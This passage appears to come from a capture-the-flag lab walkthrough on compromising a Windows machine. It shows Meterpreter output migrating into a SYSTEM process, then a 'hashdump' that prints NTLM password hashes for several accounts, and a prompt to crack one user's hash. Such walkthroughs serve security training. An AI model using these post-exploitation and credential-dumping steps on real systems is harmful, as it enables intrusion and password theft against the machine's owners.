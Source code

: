      2068  2676  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
     2072  832   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\wbem\wmiprvse.exe
     2200  560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
     2592  1312  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
     2600  560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
     2676  708   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
     2712  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
     2744  708   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\sppsvc.exe
     2780  708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
     2880  708   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe

     meterpreter > migrate 2780
     [*] Migrating from 1312 to 2780...
     [*] Migration completed successfully.


### 8 Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.


## [Task 4] Cracking

Dump the non-default user's password and crack it!

### 1 Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

    meterpreter > hashdump
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

Name of the non-default user = Jon.

### 2 Copy this password hash to a file and research how to crack it. What is the cracked password?
